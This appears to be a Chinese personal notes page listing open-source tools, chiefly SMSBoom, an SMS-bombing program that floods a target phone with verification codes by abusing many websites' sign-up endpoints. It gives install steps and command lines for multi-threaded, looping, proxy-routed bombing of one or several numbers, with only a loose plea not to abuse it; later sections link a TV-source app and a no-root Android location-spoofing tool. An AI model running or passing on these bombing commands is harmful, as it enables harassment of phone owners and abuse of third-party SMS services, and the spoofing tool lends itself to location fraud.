

资料来源：<br/>
[smsboom](https://github.com/OpenEthan/SMSBoom)


## smsboom
在 GitHub 上看到一个高一美术生写的一个健壮免费的python短信轰炸程序，专门炸坏蛋蛋，百万接口，多线程全自动添加有效接口，支持异步协程百万并发，自己对自己的号码用了一下，确实是短信轰炸，要不是及时 Ctrl C，怕是手机要崩溃。

其实原理很简单，明白之后，你也可以做一个。就是调用很多网站注册账户时发送手机验证码的接口，给要指定的手机号发送无穷无尽的验证码，看个图片就明白了

：

## 项目地址

https://github.com/WhaleFell/SMSBoom

## 使用方法

下载，并安装依赖：

```javascript
git clone https://github.com/AdminWhaleFall/SMSBoom.git/
cd SMSBoom
pip install requirements.txt 
```

复制

单线程调用：

```javascript
python smsboom.py oneRun -p 198xxxxxxxx
```

复制

多线程调用：

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

协程调用：

```javascript
python smsboom.py asyncRun -p 198xxxxxxxx
```

复制

### **命令示例**

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),只轰//炸一波。

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30
```

复制

启动64个线程,轰//炸一个人的手机号(198xxxxxxxx),启动循环轰//炸, 轮番轰//炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -f 60 -i 30 -e
```

复制

启动64个线程,轰//炸多个人的手机号(198xxxxxxxx,199xxxxxxxx),启动循环轰//炸, 轮番轰炸60次, 每次间隔30秒, 开启代理列表进行轰炸

```javascript
python smsboom.py run -t 64 -p 198xxxxxxxx -p 199xxxxxxxx -f 60 -i 30 -e
```

复制

## 最后

好用是真的好用，但请不要滥用，我能想到的就是对那些是手机号的诈骗电话可以试一下。此外，这个仓库可以作为我们学习多线程和协程的一个有趣的开源项目。如果觉得有帮助，请点赞。


## 数据安全

https://github.com/chaitin/SafeLine


## tv boxtvbox

TV box 是一个很好用的电视源软件

https://github.com/liu673cn/box  （github）

https://www.mydigit.cn/thread-378643-1-1.html （资料列表）

有数据源头

https://jinlilu.lanzouv.com/iM6Vd22r9sfe
密码:gcsu

## 代码调试工具

https://pythontutor.com/

资料来源：[有了这玩意儿还怕看不懂代码？ #Python #编程 #程序员](https://www.toutiao.com/video/7316533054045061632/?app=news_article&timestamp=1703905378&share_uid=MS4wLjABAAAAZblTiuFIZV2qCCaxUIsbQnjd4qdImHK9EQws1N68M-8&is_hit_share_recommend=0&utm_campaign=client_share&wxshare_count=1&tt_from=weixin&utm_source=weixin&utm_medium=toutiao_android&share_token=a2b470f3-5dc7-4d60-bba4-11a4b75fe421&source=m_redirect&wid=1703924410467)

## 安卓修改定位

[偷偷用！别乱传！一款开源的定位修改工具](https://mp.weixin.qq.com/s/bb9yPyMgQoRE5uoxM1mcTQ)

今天推荐的这个项目是「GoGoGo」，影梭，用于 Android 8.0+ 的无需 ROOT 权限的虚拟定位 App，基于 Android 调试 API + 百度地图及定位 SDK 实现的安卓定位修改工具，并且同时实现了一个可以自由控制移动的摇杆。使用影梭，不需要 ROOT 权限就可以随意修改自己的当前位置以及模拟移动。

功能

1. 定位修改
2. 摇杆控制移动
3. 历史记录
4. 位置搜索
5. 直接输入坐标

用法

1. 下载 Apk 直接安装

2. 启动影梭，赋予相关权限

3. 单击地图位置，然后点击启动按钮

   

> 开源项目地址：https://github.com/ZCShou/GoGoGo
>
> 开源项目作者：ZCShou


